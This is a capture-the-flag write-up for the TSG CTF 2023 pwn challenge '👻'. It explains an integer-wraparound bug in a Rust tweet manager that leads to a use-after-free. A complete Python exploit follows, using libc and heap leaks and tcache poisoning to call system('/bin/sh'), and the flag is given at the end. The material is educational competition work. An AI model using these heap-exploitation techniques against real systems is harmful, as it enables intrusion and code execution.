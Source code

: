 # TSG CTF 2023 - pwn/👻

## Solution

`2. undo tweet` option allows us to delete the last tweet, but there is a check.
```rust
    pub fn pop<'a>(&'a mut self) {
        if self.inner.len() > self.max_index + 1 {
            self.inner.pop();
        } else {
            panic!("failed to pop")
        }
    }
```
`max_index` is designed to be the largest pinned tweet index up to that point. If we can make the pinned index greater than `max_index`, we can free the pinned tweet.

To achive this, we can input `old_new = 0` and `id = 2**64 - n` as `-n` in `move_pin_tweet` function to increase `self.pinned` while avoiding the call to `get_index`, which updates `max_index`.

```rust
    fn move_pin_tweet(&mut self) {
        print_str("older[0] / newer[1] > ");
        let old_new = get_usize();
        print_str("size > ");
        let id = get_usize();

        if old_new == 1 {
            self.pinned = self
                .tweets
                .get_index(self.pinned + id)
                .expect("no such tweet");
        } else {
            self.pinned = self.pinned - id;
        }
        assert!(self.sanity_check());
    }
```

After freeing the pinned tweet, we can still access it through options `4. print pinned tweet` and `5. modify pinned tweet`.
This binary uses glibc's memory allocator, so the rest of exploitation is roughly the same as *tinyfs*.

## Exploit

```python
def select(n):
    sc.after("> ").sendline(str(n))
def post(data: bytes | str):
    select(1)
    sc.after("tweet >").sendline(data)
def undo():
    select(2)
def pin(id):
    select(3)
    sc.after("id >").sendline(str(id))
def print_pin():
    select(4)
def move_pin(old_new, size):
    select(6)
    sc.after("older[0]").sendline(str(old_new))
    sc.after("size > ").sendline(str(size))
def modify_pin(data):
    select(5)
    sc.after("tweet > ").sendline(data)

# libc leak

s1 = 0x108
for i in range(9):
    post(b"a" * s1)

pin(0)
move_pin(0, 2 ** 64 - 2)

for i in range(8):
    undo()

print_pin()
leak = sc.recv_before("\n>")
leak = util.u2i(leak[:8])

libc_offset = leak - 0x7ffff7e19ce0
libc_base = 0x00007ffff7c00000 + libc_offset

print(f"{libc_base=:#x}")

# heap leak

for i in range(7):
    post(b"a" * s1)

pin(0)
move_pin(0, 2 ** 64 - 8)

for i in range(7):
    undo()

print_pin()

leak = sc.recv_before("\n>")
leak = util.u2i(leak[:8])
mask = leak

# reset

for i in range(7):
    post(b"a" * s1)

pin(0)
move_pin(0, 2 ** 64 - 7)

for i in range(7):
    undo()

print_pin()

leak = sc.recv_before("\n>")
leak = util.u2i(leak[:8])
print(f"{leak ^ mask=:#x}")

# tcache poisoning

target = 0x00007ffff7e19000 + libc_offset

modify_pin(util.u64(target ^ mask))

for i in range(6):
    post(b"a" * s1)

ptrs = [0x30 + i for i in range(s1 // 8)]

ptrs[0x13] = 0x000f2d7a + libc_base
ptrs[0x0c] = 0x00121f5a + libc_base
ptrs[0x18] = 0x00052dd4 + libc_base
ptrs[0x17] = 0x0002a8bb + libc_base
ptrs[0x14] = 0x000de39f + libc_base
ptrs[0x1d] = 0x000c535d + libc_base
ptrs[0x20] = 0x7ffff7c50d70 + libc_offset # system
ptrs[0] = int.from_bytes(b"/bin/sh\0", "little")

post(util.u64(*ptrs))

select(7)

```

## Flag

```
TSGCTF{Ghost_dwells_within_the_proof}
```